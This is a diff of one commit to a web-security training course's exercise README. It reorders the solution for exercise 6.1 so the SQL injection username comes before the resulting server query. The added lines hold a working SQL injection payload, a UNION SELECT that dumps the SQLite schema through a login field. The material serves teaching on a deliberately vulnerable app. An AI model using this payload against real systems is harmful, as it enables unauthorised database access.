

Before and after one commit to nerdschoolbergen/introduction-to-web-security, a Markdown page: exercise-6/README.md, the part around the change. Drawn GitHub-style; folded sections open; blank space fills up the shorter version.

Commit message:
Make the exercise 6.1 solution start with what to type
The solution opened with the full resulting SQL query, which is easy
to mistake for the username to enter. Show the username first, then
the query the server builds from it, with a note not to type it.

````diff
--- a/exercise-6/README.md
+++ b/exercise-6/README.md
@@ -61,7 +61,13 @@ The login form is still vulnerable. Focus on the username field. A single quote
 <details>
   <summary>Solution for 6.1</summary>
 
-  With the username from the exercise, the login query becomes:
+  Log in with this username (any password):
+
+  ```sql
+  ' UNION ALL SELECT GROUP_CONCAT(sql) as id FROM sqlite_schema--
+  ```
+
+  The app pastes your username into its login query (`SELECT id FROM user WHERE username='<username>' AND password='<password>'`), so the query the database runs becomes the following. Don't type this in; it's what the server builds from your username:
 
   ```sql
   SELECT id FROM user WHERE username='' UNION ALL SELECT GROUP_CONCAT(sql) as id FROM sqlite_schema--' AND password=''
````
